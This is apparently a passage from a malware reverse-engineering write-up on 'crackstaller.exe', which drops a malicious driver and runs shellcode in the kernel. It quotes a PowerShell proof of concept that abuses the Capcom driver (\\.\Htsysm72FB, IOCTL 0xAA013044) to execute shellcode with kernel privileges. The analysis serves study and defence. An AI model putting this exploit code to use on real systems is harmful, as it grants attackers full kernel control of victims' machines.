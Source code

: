 The Powershell PoC from FuzzySecurity hints at the functionality of the crackstaller program.
The script also includes a reference to the device name `Htsysm72FB`, which appeared in the VirusTotal report.

```powershell
# Some tricks here
# => cmp [rax-8], rcx
echo "`n[>] Allocating Capcom payload.."
[IntPtr]$Pointer = [CapCom]::VirtualAlloc([System.IntPtr]::Zero, (8 + $Shellcode.Length), 0x3000, 0x40)
$ExploitBuffer = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8) + $Shellcode
[System.Runtime.InteropServices.Marshal]::Copy($ExploitBuffer, 0, $Pointer, (8 + $Shellcode.Length))
echo "[+] Payload size: $(8 + $Shellcode.Length)"
echo "[+] Payload address: $("{0:X}" -f $Pointer.ToInt64())"

$hDevice = [CapCom]::CreateFile("\\.\Htsysm72FB", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)

if ($hDevice -eq -1) {
    echo "`n[!] Unable to get driver handle..`n"
    Return
} else {
    echo "`n[>] Driver information.."
    echo "[+] lpFileName: \\.\Htsysm72FB"
    echo "[+] Handle: $hDevice"
}

# IOCTL = 0xAA013044
#---
$InBuff = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8)
$OutBuff = 0x1234
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($InBuff.Length)"
echo "[+] IOCTL: 0xAA013044"
[CapCom]::DeviceIoControl($hDevice, 0xAA013044, $InBuff, $InBuff.Length, [ref]$OutBuff, 4, [ref]0, [System.IntPtr]::Zero) |Out-null
```

We already know a good deal about this program thanks to some basic OSINT work.
It drops a malicious Windows driver called cfs.dll to disk.
There is actually no need to spend time reversing this driver since we already know that its sole purpose is to execute some shellcode with full kernel permissions.

## Reversing Crackstaller.exe

The crackstaller.exe program performs steps similar to the above Powershell PoC.
It's purpose is to drop the embedded malicious driver and then execute some shellcode with elevated privileges.

It will eventually need to call `DeviceIoControl` in order to pass the shellcode to cfs.dll.
We can see that there is exactly one place where this happens and that the control code used is 0xAA013044.
The preceeding call to `VirtualAlloc` likely has something to do with setting up a buffer of shellcode.

